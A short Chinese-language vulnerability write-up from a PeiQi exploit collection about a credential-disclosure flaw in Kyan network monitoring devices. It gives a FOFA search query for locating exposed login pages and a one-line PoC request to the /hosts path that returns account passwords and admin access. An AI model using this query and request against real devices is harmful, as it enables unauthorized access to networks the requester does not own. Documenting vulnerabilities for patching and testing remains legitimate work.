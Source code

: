 ```yaml
---
title: Kyan 网络监控设备 账号密码泄露漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - Kyan
---
```


# Kyan 网络监控设备 账号密码泄露漏洞

## 漏洞描述

Kyan 网络监控设备 存在账号密码泄露漏洞，攻击者通过漏洞可以获得账号密码和后台权限

## 漏洞影响

> [!NOTE]
>
> Kyan

## FOFA

> [!NOTE]
>
> title="platform - Login"

## 漏洞复现

登录页面如下

![](/img/20210924015247170749.png)

POC

```
http://xxx.xxx.xxx.xxx/hosts
```

![](/img/20210924015247407987.png)

成功获得账号密码

## Goby & POC

> [!NOTE]
>
> Kyan design account password disclosure

![](/img/20210924015247550035.png)

## 参考文章

https://www.secquan.org/BugWarning/1071987